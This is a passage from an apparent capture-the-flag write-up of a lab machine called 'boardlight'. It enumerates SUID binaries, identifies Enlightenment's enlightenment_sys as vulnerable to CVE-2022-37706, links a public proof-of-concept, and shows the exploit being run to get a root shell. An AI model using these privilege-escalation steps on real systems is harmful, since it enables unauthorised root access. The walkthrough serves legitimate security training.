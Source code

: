 -  `find / -perm -u=s -type f 2>/dev/null`

```sh
larissa@boardlight:~$ sudo -l
[sudo] password for larissa: 
Sorry, user larissa may not run sudo on localhost.
larissa@boardlight:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper

```

Among the files listed, enlightenment stands out it has the Set User ID (SUID) bit set, allowing it to run with the privileges of the file owner, which in this case is root . It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems.

A quick Google search for vulnerabilities affecting this particular version leads us to CVE-2022-37706, which describes a flaw in enlightenment_sys in Enlightenment versions before 0.25.4 . This vulnerability allows local users to gain elevated privileges because the binary is SUID and owned as the root user, and the system library function mishandles path names that begin with a /dev/.. substring. We also come across this [proof of concept script](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main), which we proceed to download to our local machine.

```sh
larissa@boardlight:/dev/shm$ ls
exploit.sh
larissa@boardlight:/dev/shm$ bash exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can''t find in /etc/fstab.
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# 

```